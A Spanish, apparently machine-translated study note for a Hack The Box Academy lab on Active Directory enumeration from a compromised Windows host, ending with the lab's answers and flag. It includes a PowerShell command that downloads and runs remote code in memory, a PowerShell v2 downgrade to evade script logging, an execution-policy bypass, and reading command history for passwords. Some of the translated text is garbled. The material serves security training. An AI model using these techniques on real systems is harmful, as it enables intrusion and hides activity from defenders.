







## Comandos de Env para host y Network Recon

Primero, cubriremos algunos comandos ambientales básicos que se pueden utilizar para darnos más información sobre el anfitrión en el que estamos.

#### Comandos de Enumeración Básico

|**Comando**|**Resultado**|
|---|---|
|`hostname`|Imprime el nombre del PC|
|`[System.Environment]::OSVersion.Version`|Imprime la versión del sistema operativo y el nivel de revisión|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Imprime los parches y setxes aplicados al huésped|
|`ipconfig /all`|Imprime el estado del adaptador de red y configuraciones|
|`set`|Muestra una lista de variables de entorno para la sesión actual (anulación de CMD-prompt)|
|`echo %USERDOMAIN%`|Muestra el nombre de dominio al que pertenece el host (ran de CMD-prompt)|
|`echo %logonserver%`|Imprime el nombre del controlador de dominio con el que el host comprueba (an de CMD-prompt)|

## Aprovechamiento de PowerShell

PowerShell ha existido desde 2006 y proporciona a los administradores con Windows un amplio marco para administrar todas las facetas de los sistemas Windows y entornos AD. Es un lenguaje de scripting potente y se puede utilizar para profundizar en los sistemas. PowerShell tiene muchas funciones y módulos incorporados que podemos utilizar en un compromiso para reconvertir el host y la red y enviar y recibir archivos.

Veamos algunas de las formas en que PowerShell puede ayudarnos.

|**Cmd-Let**|**Descripción**|
|---|---|
|`Get-Module`|Listas de módulos disponibles cargados para su uso.|
|`Get-ExecutionPolicy -List`|Imprimirá la configuración [de la política](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) de [ejecución](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) para cada ámbito en un host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|Esto cambiará la política para nuestro proceso actual utilizando la `-Scope`parámetro. Hacerlo revertirá la política una vez que desalojamos el proceso o lo pongamos fin. Esto es ideal porque no vamos a hacer un cambio permanente para la huésped víctima.|
|`Get-ChildItem Env: \| ft Key,Value`|Devuelve valores ambientales como rutas clave, usuarios, información informática, etc.|
|`Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|Con esta cadena, podemos obtener el historial de PowerShell del usuario especificado. Esto puede ser muy útil ya que el historial de comandos puede contener contraseñas o nos apunta hacia archivos de configuración o scripts que contienen contraseñas.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|Esta es una forma rápida y fácil de descargar un archivo de la web utilizando PowerShell y llamarlo desde la memoria.|


#### Downgrade Powershell

Muchos desconocen que varias versiones de PowerShell a menudo existen en un anfitrión. Si no se desinstalan, todavía se pueden utilizar. La tala de eventos Powershell se introdujo como una característica con Powershell 3.0 y delante. Con eso en mente, podemos intentar llamar a Powershell versión 2.0 o más antigua. Si tiene éxito, nuestras acciones de la concha no se registrarán en Event Viewer. Esta es una gran manera de seguir bajo el radar de los defensores mientras utilizamos los recursos incorporados en los anfitriones a nuestro favor. A continuación un ejemplo de degradación de Powershell.


```powershell-session
Get-host
```

```powershell-session
powershell.exe -version 2
```

```powershell-session
get-module
```

#### Examinando el inicio de la sesión de eventos Powershell



Con [Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) activado, podemos ver que lo que escribamos en el terminal se envía a este registro. Si rebajamos a PowerShell V2, esto ya no funcionará correctamente. Nuestras acciones después serán enmascaradas ya que Script Block Logging no funciona por debajo de PowerShell 3.0. Observe arriba en los registros que podemos ver los comandos que emitimos durante una sesión normal de shell, pero se detuvo después de iniciar una nueva instancia de PowerShell en la versión 2. Tenga en cuenta que la acción de emitir el comando `powershell.exe -version 2`dentro de la sesión de PowerShell se registrará. Así que la evidencia se quedará atrás mostrando que la rebaja ocurrió, y un defensor sospechoso o vigilante puede iniciar una investigación después de ver que esto suceda y los registros ya no se llenan para esa instancia. Podemos ver un ejemplo de esto en la imagen de abajo. Los elementos de la caja roja son las entradas de registro antes de iniciar la nueva instancia, y la información en verde es el texto que muestra una nueva sesión de PowerShell se inició en HostVersión 2.0.

#### A partir de los registros V2



### Comprobación de defensas

Los siguientes comandos utilizan las [utilidades de netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) y [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query) para ayudarnos a sentir el estado del host cuando se trata de la configuración de Windows Firewall y para comprobar el estado de Windows Defender.

#### Controles de cortafuegos

```powershell
netsh advfirewall show allprofiles
```

#### Windows Defender Check (de CMD.exe)

```cmd
sc query windefend
```

A continuación comprobaremos la configuración de estado y configuración con el [Get-MpComuterStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps) cmdlet en PowerShell.

#### Get-MpComputerStatus

```powershell
Get-MpComputerStatus
```

Al aterrizar en un huésped por primera vez, una cosa importante es comprobar y ver si usted es el único registrado. Si empiezas a tomar acciones de un anfitrión que alguien más está en marcha, existe el potencial para que te noten. Si se lanza una ventana emergente o un usuario sale de su sesión, puede reportar estas acciones o cambiar su contraseña, y podríamos perder nuestro punto de apoyo.

#### Usando qwinsta

```powershell-session
qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>console           forend                    1  Active
 rdp-tcp                                 65536  Listen
```

## Información de la red

|**Comandos de redes**|**Descripción**|
|---|---|
|`arp -a`|Listas todos los hosts conocidos almacenados en la mesa de arp.|
|`ipconfig /all`|Imprime la configuración del adaptador para el host. Podemos averiguar el segmento de red desde aquí.|
|`route print`|Muestra la tabla de enrutamiento (IPv4 & IPv6) identificando redes conocidas y capa tres rutas compartidas con el host.|
|`netsh advfirewall show allprofiles`|Muestra el estado del cortafuegos del anfitrión. Podemos determinar si es tráfico activo y filtrando.|

Comandos como `ipconfig /all`y `systeminfo`nos muestran algunas configuraciones básicas de red. Otros dos comandos importantes nos proporcionan una tonelada de datos valiosos y podrían ayudarnos a fomentar nuestro acceso. `arp -a`y `route print`nos mostrará lo que acoge la caja en la que estamos es consciente y qué redes son conocidas por el anfitrión. Cualquier red que aparece en la mesa de enrutamiento son avenidas potenciales para el movimiento lateral porque se accede lo suficiente como para que se haya añadido una ruta, o se haya establecido administrativamente allí para que el host sepa acceder a recursos en el dominio. Estos dos comandos pueden ser especialmente útiles en la fase de descubrimiento de una evaluación de caja negra donde tenemos que limitar nuestro escaneo

#### Usando arp -a

```powershell
arp -a
```

#### Ver la tabla de enrutamiento

```powershell
route print
```


---

## Instrumentación de gestión de Windows (WMI)

[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) es un motor de scripting que se utiliza ampliamente dentro de los entornos empresariales de Windows para recuperar información y ejecutar tareas administrativas en hosts locales y remotos. Para nuestro uso, crearemos un informe WMI sobre usuarios de dominios, grupos, procesos y otra información de nuestros hosts de dominios y otros hosts de dominios.

#### Comprobaciones rápidas de WMI

| **Comando**                                                                          | **Descripción**                                                                                                        |
| ------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------- |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                              | Imprime el nivel de parche y la descripción de los Hotfixes aplicados                                                  |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | Muestra información básica de host para incluir cualquier atributo dentro de la lista                                  |
| `wmic process list /format:list`                                                     | Lista de todos los procesos en host                                                                                    |
| `wmic ntdomain list /format:list`                                                    | Muestra información sobre los controladores de dominio y dominio                                                       |
| `wmic useraccount list /format:list`                                                 | Muestra información sobre todas las cuentas locales y cualquier cuenta de dominio que se haya conectado al dispositivo |
| `wmic group list /format:list`                                                       | Información sobre todos los grupos locales                                                                             |
| `wmic sysaccount list /format:list`                                                  | Deja la información sobre cualquier cuenta del sistema que se está utilizando como cuentas de servicio.                |

#### Tabla de mandos de redes útiles

| **Comando**                                     | **Descripción**                                                                                                                    |
| ----------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| `net accounts`                                  | Información sobre los requisitos de contraseña                                                                                     |
| `net accounts /domain`                          | Política de contraseña y cierre patronal                                                                                           |
| `net group /domain`                             | Información sobre los grupos de dominio                                                                                            |
| `net group "Domain Admins" /domain`             | Lista usuarios con privilegios de administración de dominio                                                                        |
| `net group "domain computers" /domain`          | Lista de PC conectados al dominio                                                                                                  |
| `net group "Domain Controllers" /domain`        | Listar cuentas de PC de controladores de dominios                                                                                  |
| `net group <domain_group_name> /domain`         | Usuario que pertenece al grupo                                                                                                     |
| `net groups /domain`                            | Lista de grupos de dominios                                                                                                        |
| `net localgroup`                                | Todos los grupos disponibles                                                                                                       |
| `net localgroup administrators /domain`         | Lista usuarios que pertenecen al grupo de administradores dentro del dominio (el grupo `Domain Admins`se incluye aquí por defecto) |
| `net localgroup Administrators`                 | Información sobre un grupo (acuentro)                                                                                              |
| `net localgroup administrators [username] /add` | Añadir usuario a los administradores                                                                                               |
| `net share`                                     | Comprobar acciones actuales                                                                                                        |
| `net user <ACCOUNT_NAME> /domain`               | Obtenga información sobre un usuario dentro del dominio                                                                            |
| `net user /domain`                              | Lista de todos los usuarios del dominio                                                                                            |
| `net user %username%`                           | Información sobre el usuario actual                                                                                                |
| `net use x: \computer\share`                    | Montar la parte local                                                                                                              |
| `net view`                                      | Obtenga una lista de computadoras                                                                                                  |
| `net view /all /domain[:domainname]`            | Acciones en los dominios                                                                                                           |
| `net view \computer /ALL`                       | Lista de acciones de una computadora                                                                                               |
| `net view /domain`                              | Lista de PCs del dominio                                                                                                           |

---

## Dsquery

[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952\(v=ws.11\)) es una herramienta de línea de comando útil que se puede utilizar para encontrar objetos Active Directory. Las consultas que ejecutamos con esta herramienta se pueden replicar fácilmente con herramientas como BloodHound y PowerView, pero puede que no siempre tengamos esas herramientas a nuestra disposición, como se discutió al principio de la sección. Pero, es una herramienta probable que los administradores de dominio están utilizando en su entorno. Con eso en mente, `dsquery`existirá en cualquier huésped con el `Active Directory Domain Services Role`instalado, y el `dsquery`DLL existe en todos los sistemas Windows modernos de la Fímpetis de la Fijación de la Fijación. `C:\Windows\System32\dsquery.dll`.

#### DLL de la ficha baja

Todo lo que necesitamos son privilegios elevados en un huésped o la capacidad de dirigir una instancia de Comando Prompt o PowerShell de a `SYSTEM`contexto. A continuación, mostraremos la función de búsqueda básica con `dsquery`y algunos filtros de búsqueda útiles.

#### Búsqueda de usuario

```powershell
dsquery user
```

#### Búsqueda de equipos

```powershell
dsquery computer
```

#### Usuarios con Conjunto de Atributos Específicos (PASSWD-NOTREQD)

```powershell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```


#### Buscando controladores de dominio

```powershell
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```


---

### Filtración de LDAP

Las consultas anteriores que estamos usando cuerdas tales como `userAccountControl:1.2.840.113556.1.4.803:=8192`. Estas cadenas son consultas comunes de LDAP que se pueden utilizar con varias herramientas diferentes también, incluyendo AD PowerShell, ldapsearch y muchas otras. Vamos a descomponerlos rápidamente:

`userAccountControl:1.2.840.113556.1.4.803:`Especifica que estamos viendo los [atributos de Control](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) de [Cuenta](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) de [Usuario (UAC)](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) para un objeto. Esta porción puede cambiar para incluir tres valores diferentes que explicaremos a continuación cuando busquemos información en AD (también conocido como [Identificadores](https://ldap.com/ldap-oid-reference-guide/) de [Objetos (OID).](https://ldap.com/ldap-oid-reference-guide/)  
`=8192`representa la máscara de bits decimal que queremos coincidir en esta búsqueda. Este número decimal corresponde a una bandera de Atributo UAC correspondiente que determina si un atributo como `password is not required`o o `account is locked`está establecido. Estos valores pueden agravarse y hacer múltiples entradas de bits diferentes. A continuación se muestra una lista rápida de valores potenciales.

#### Valores de la UAC



---

#### OID

Los OIDs son reglas utilizadas para emparejar los valores de bits con atributos, como se ve anteriormente. Para LDAP y AD, hay tres reglas principales de coincidencia:

1. `1.2.840.113556.1.4.803`

Cuando usamos esta regla como lo hicimos en el ejemplo anterior, estamos diciendo que el valor de bits debe coincidir completamente para cumplir con los requisitos de búsqueda. Ideal para hacer coincidir con un atributo singular.

2. `1.2.840.113556.1.4.804`

Al usar esta regla, estamos diciendo que queremos que nuestros resultados muestren cualquier coincidencia de atributos si hay algún bit en los partidos de cadena. Esto funciona en el caso de un objeto con múltiples atributos establecidos.

3. `1.2.840.113556.1.4.1941`

Esta regla se utiliza para emparejar los filtros que se aplican al Nombre Distinguido de un objeto y buscará a través de todas las entradas de propiedad y membresía.

#### Operadores lógicos

Al construir cadenas de búsqueda, podemos utilizar operadores lógicos para combinar valores para la búsqueda. Los operadores `&``|`y `!`se utilizan para este fin. Por ejemplo, podemos combinar múltiples [criterios](https://learn.microsoft.com/en-us/windows/win32/adsi/search-filter-syntax) de [búsqueda](https://learn.microsoft.com/en-us/windows/win32/adsi/search-filter-syntax) con la `& (and)`operador como:  
`(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))`

El ejemplo anterior establece los primeros criterios de que el objeto debe ser un usuario y lo combina con la búsqueda de un valor de bits UAC de 64 (Password Can't Change). Un usuario con ese conjunto de atributos coincidiría con el filtro. Usted puede llevar esto aún más lejos y combinar múltiples atributos como `(&(1) (2) (3))`. El `!`(no) y `|`(o) los operadores pueden trabajar de manera similar. Por ejemplo, nuestro filtro anterior se puede modificar de la siguiente manera:  
`(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))`

Esto buscaría cualquier objeto de usuario que lo haga `NOT`tiene el conjunto de atributos de Contraseña Can't Change. Cuando pensamos en usuarios, grupos y otros objetos en AD, nuestra capacidad de buscar con consultas LDAP es bastante extensa.

Se puede hacer mucho con filtros de UAC, operadores y atributos que coincidan con las reglas OID. Por ahora, esta explicación general debería ser suficiente para cubrir este módulo. Para obtener más información y una inmersión más profunda en el uso de este tipo de búsqueda de filtros, consulte el módulo [Active Directory LDAP](https://academy.hackthebox.com/course/preview/active-directory-ldap).

---

#### Enumerate the host's security configuration information and provide its AMProductVersion.



Respuesta: `4.18.2109.6`

#### What domain user is explicitly listed as a member of the local Administrators group on the target host?



Respuesta: `adunn`

#### Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.


primero buscamos por cuentas desactivadas:

```powershell
dsquery * domainroot -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))"

```




Ahora enumeramos cada cuenta centrados en la descripción:

```powershell
dsquery * domainroot -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr distinguishedName description memberOf

```




Respuesta: `HTB{LD@P_I$_W1ld}`

